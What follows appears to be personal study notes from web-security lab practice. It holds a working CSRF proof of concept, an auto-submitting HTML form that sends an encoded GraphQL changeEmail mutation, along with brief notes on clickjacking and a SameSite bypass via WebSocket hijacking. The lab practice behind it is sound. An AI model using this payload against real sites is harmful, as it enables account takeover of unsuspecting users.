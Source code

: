 **Performing CSRF exploits over GraphQL**

```
    <form action="https://{lab}/graphql/v1" method="POST">
      <input type="hidden" name="query" value="mutation&#32;changeEmail&#40;&#36;input&#58;&#32;ChangeEmailInput&#33;&#41;&#123;changeEmail&#40;input&#58;&#32;&#36;input&#41;&#123;email&#125;&#125;" />
      <input type="hidden" name="operationName" value="changeEmail" />
      <input type="hidden" name="variables" value="&#123;&quot;input&quot;&#58;&#123;&quot;email&quot;&#58;&quot;test2&#64;test5&#46;com&quot;&#125;&#125;" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
```

**Clickjacking with a frame buster script**
- Clickbandit -> allow forms



### Return to these labs
- SameSite Strict bypass via sibling domain
  - Uses cross-site WebSocket hijacking
- Rest of the clickjacking labs


### Fix in notes
- GraphQL - Github markdown issue with double curly braces